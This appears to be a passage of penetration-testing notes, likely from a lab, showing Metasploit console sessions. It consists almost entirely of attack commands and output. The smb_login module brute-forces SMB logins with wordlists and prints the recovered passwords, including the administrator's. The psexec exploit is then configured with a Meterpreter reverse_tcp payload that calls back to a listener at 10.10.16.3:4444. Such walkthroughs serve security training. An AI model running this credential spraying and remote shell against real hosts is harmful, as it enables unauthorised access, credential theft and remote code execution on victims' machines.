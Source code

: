 ```
msf5 > use auxiliary/scanner/smb/smb_login
msf5 auxiliary(scanner/smb/smb_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
USER_FILE => /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
PASS_FILE => /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5 auxiliary(scanner/smb/smb_login) > set VERBOSE false
VERBOSE => false
msf5 auxiliary(scanner/smb/smb_login) > run

[+] 10.0.23.243:445       - 10.0.23.243:445 - Success: '.\sysadmin:samantha'
[+] 10.0.23.243:445       - 10.0.23.243:445 - Success: '.\demo:victoria'
[+] 10.0.23.243:445       - 10.0.23.243:445 - Success: '.\auditor:elizabeth'
[+] 10.0.23.243:445       - 10.0.23.243:445 - Success: '.\administrator:qwertyuiop' Administrator
[*] 10.0.23.243:445       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

[PSEXEC PASS THE HASH](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/)

```
msf5 auxiliary(scanner/smb/smb_login) > search psexec

Matching Modules
================

   #   Name                                         Disclosure Date  Rank       Check  Description
   -   ----                                         ---------------  ----       -----  -----------
   10  exploit/windows/smb/psexec                   1999-01-01       manual     No     Microsoft Windows Authenticated User Code Execution
```

```
msf5 auxiliary(scanner/smb/smb_login) > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                10.0.23.243      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SHARE                 ADMIN$           yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBUser                                no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.16.3       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

```